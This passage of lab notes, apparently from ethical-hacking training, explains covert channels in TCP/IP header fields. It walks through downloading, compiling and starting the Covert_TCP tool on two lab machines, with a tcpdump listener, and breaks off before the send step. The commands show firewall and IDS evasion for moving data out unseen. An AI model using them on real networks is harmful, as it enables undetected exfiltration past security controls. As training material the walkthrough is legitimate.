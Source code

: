 - Networks use network access control permissions to permit or deny traffic flowing through them. Tunneling is employed to bypass access control rules of firewalls, IDS, IPS, and web proxies to allow specific traffic. Covert channels can be established by inserting data into unused fields of protocol headers. Numerous unused or misused fields in TCP or IP can be exploited for sending data to bypass firewalls.

- The [Covert_TCP](https://github.com/cudeso/security-tools/blob/master/networktools/covert/covert_tcp.c) program manipulates TCP/IP headers of data packets to send a file one byte at a time from any host to a destination. It can function as a server and client, concealing transmitted data inside an IP header. This is crucial for bypassing firewalls, sending data within legitimate-looking packets that contain no analyzable data for sniffers.

- A professional ethical hacker or pen tester must comprehend how to transmit covert traffic within the unused fields of TCP and IP headers.

##### Steps

lets consider two machines (one Parrot and one Ubuntu)

- **On Parrot**

   - **Prepare Files** 

      - Create a folder named "Send" on the Desktop: `mkdir Send`
      - Change to the Send folder: `cd Send`
      - Create a text file named "message.txt" with the content "Secret Message": `echo "Secret Message" > message.txt`

   - **Download and Compile Covert_TCP**

      - Download [covert_tcp.c](https://github.com/cudeso/security-tools/blob/master/networktools/covert/covert_tcp.c)
      - Paste `covert_tcp.c` into the Send folder.
      - Compile: `cc -o covert_tcp covert_tcp.c`

- **On Ubuntu**

   - **Setup Receiver**

      - Open a new Terminal and create a Receive folder on the Desktop: `cd Desktop && mkdir Receive && cd Receive`

   - **Download and Compile Covert_TCP**

      - Download [covert_tcp.c](https://github.com/cudeso/security-tools/blob/master/networktools/covert/covert_tcp.c)
      - Switch back to Terminal, compile: `cc -o covert_tcp covert_tcp.c`

   - **Transmission (On Ubuntu)**

      - Gain super-user access: `sudo su`
      - Start tcpdump listener: `tcpdump -nvvX port 8888 -i 10`
      - Open a new Terminal tab, navigate to the Receive folder: `cd Desktop/Receive`
      - Start listener: `./covert_tcp -dest 10.10.1.9 -source 10.10.1.13 -source_port 9999 -dest_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt`

- **On Parrot**

   - **Send Message**
